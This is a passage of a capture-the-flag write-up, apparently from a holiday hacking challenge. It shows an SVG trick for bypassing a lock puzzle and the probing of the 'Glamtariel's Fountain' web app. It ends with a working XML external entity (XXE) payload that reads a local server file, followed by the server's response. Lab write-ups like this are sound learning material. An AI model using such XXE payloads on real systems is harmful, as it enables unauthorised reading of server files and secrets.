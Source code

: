 The sixth lock can be similarly bypassed:
```html
<svg version="1.1" width="100%" height="200">>
  <<rect fill="#FF0000" width="100%" x="0%" y="30%" height="27%"/>> 
  <<rect fill="#00FF00" width="100%" x="0%" y="5%" height="20%"/>>
  <<rect fill="#0000FF" width="100%" x="0%" y="75%" height="80%"/>>
  <<rect fill="#0000FF" width="100%" x="0%" y="118" height="80%"/>>
<</svg>>
```

## Glamtariel's Fountain
“Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.”

The challenge hints suggest trying to communicate with the server in XML, and potentially open up an XXE atttack. I fired up Burp to try and interrogate the server using `reqType=xml`:

```json
{
  "appResp": "We don't speak that way very often any more. Once in a while perhaps, but only at certain times.^I don't hear her use that very often. I think only for certain TYPEs of thoughts.",
  "droppedOn": "none",
  "visit": "none"
}
```

So it looks like certain information can only be returned in XML. Will keep that in mind.

This may be helpful when trying to find a PATH:
```json
{
  "appResp": "Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!^Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed. Please click away that ominous eye!",
  "droppedOn": "fountain",
  "visit": "static/images/stage2ring-eyecu_2022.png,260px,90px"
}
```

So far it only looks like the server can only communicate in JSON and XML. JSON is the standard, but XML I can’t get a response from - even though the server states that it will respond in XML on “occasion”. 

The attack pattern looks like XXE ultimately - so I’ll have to figure out a situation in which the server accepts XML. 

After experimenting for a while, this payload was able to obtain the ringlist:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>

<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</who>
</root>
```
Response:
```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```